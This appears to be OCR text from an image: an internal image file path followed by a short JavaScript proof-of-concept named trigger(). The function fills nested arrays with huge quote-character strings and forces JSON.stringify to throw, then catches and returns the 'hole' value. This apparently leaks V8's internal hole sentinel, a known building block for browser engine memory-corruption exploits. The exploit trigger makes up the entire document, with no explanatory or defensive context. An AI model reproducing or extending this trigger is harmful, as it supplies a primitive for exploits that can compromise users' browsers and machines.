 function trigger() {  
    let a = [], b = [];  
    let s = '"'.repeat(0x800000);  
    a[20000] = s;  
    for (let i = 0; i < 10; i++) 
       a[i] = s;  
    for (let i = 0; i < 10; i++) 
       b[i] = a;  
    try {  
        JSON.stringify(b);  
    } catch (hole) {  return hole;  }  
}  
